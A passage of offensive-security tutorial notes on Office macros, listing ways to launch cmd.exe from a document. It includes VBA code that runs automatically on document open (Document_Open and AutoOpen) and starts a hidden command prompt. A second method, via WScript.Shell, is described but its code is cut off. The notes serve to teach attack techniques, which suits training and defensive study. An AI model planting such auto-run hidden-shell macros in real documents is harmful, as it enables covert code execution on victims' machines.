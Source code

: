 The Protected View has the following things by default

![Protected View](images/trust-center-protected.png)

## Opening cmd.exe from Macros

There are two methods :

1. Shell function of VBA

   - Initialize a string
   - Set the value of the string to cmd.exe
   - Use the Shell function with the vbHide, which sets the window style to (0), hence hides the shell.
   - Code :

   ```
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "cmd.exe"
            Shell str, vbHide
        End Sub
   ```

2. CreateObject method of the Windows Script Host (WSH)

   - Initialize a string
   - Set the value of the string to cmd.exe
   - Use the WScript.shell to pop a command prompt and set the window style to 0 to hide it.
   - Code :
